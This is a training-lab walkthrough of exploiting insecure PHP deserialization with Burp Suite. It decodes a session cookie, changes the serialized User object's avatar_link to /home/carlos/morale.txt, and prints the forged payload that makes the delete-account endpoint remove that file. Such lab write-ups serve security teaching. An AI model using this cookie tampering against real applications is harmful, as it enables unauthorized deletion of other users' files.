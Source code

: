 # Lab 3

## Using application functionality to exploit insecure deserialization

### Question Description:

We have user access as `wiener:peter` but the lab is vulnerable to unchecked deserialization and also the application in lab has delete user functionality. We have to somehow leverage delete user functionality to delete morale.txt ( File location `/home/carlos/morale.txt` ). As a backup user we have other user credential given as `gregg:rosebud`.

### Tools Used:

- Burp Suite

#### Step 1 [ Find what the HTTP request looks like for deleting an user ]

First of all let's find out where delete account facility actually sends HTTP request.

Login as `gregg` and then in `My account` tab intercept the request when you click on delete button which will look something like below.

![](delete-facility-HTTP-request.png)

Now we know the request path let's forward/drop above request and go ahead and login to wiener and change serialized object to delete `morale.txt`

#### Step 1 [ Intercept and decode phase ]:

After logging in as wiener intercept the home page and send it to burp repeater ( Check lab 1 if you don't know how to do it. ) and notice the cookie section. Generally our object is encoded with base64 and then encoded with URL encoding which in our case looks like below.

> Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsM1dYeWRvdDU1NHlHRWl2TmxTdFpQNURvdzhUd3VjUyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d

Decoded object will look like below.

> O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"l3WXydot554yGEivNlStZP5Dow8TwucS";s:11:"avatar_link";s:19:"users/wiener/avatar";}

After decoding above object notice the attribute `avatar_link` which has value `users/wiener/avatar`. The file here also gets deleted when we delete the account which is essentially the functionality of the application. so if we change the the location to `/home/carlos/morale.txt` and then send this serialized object to `/my-account/delete` and if it passes unchecked it will delete above file with the user and this is what we want!

Modified serialized object:

> O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"l3WXydot554yGEivNlStZP5Dow8TwucS";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

Which will be encoded to :

> Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsM1dYeWRvdDU1NHlHRWl2TmxTdFpQNURvdzhUd3VjUyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9

Forward the request to `/my-account/delete` with above object in cookie section will delete the `morale.txt` file and your lab is completed.
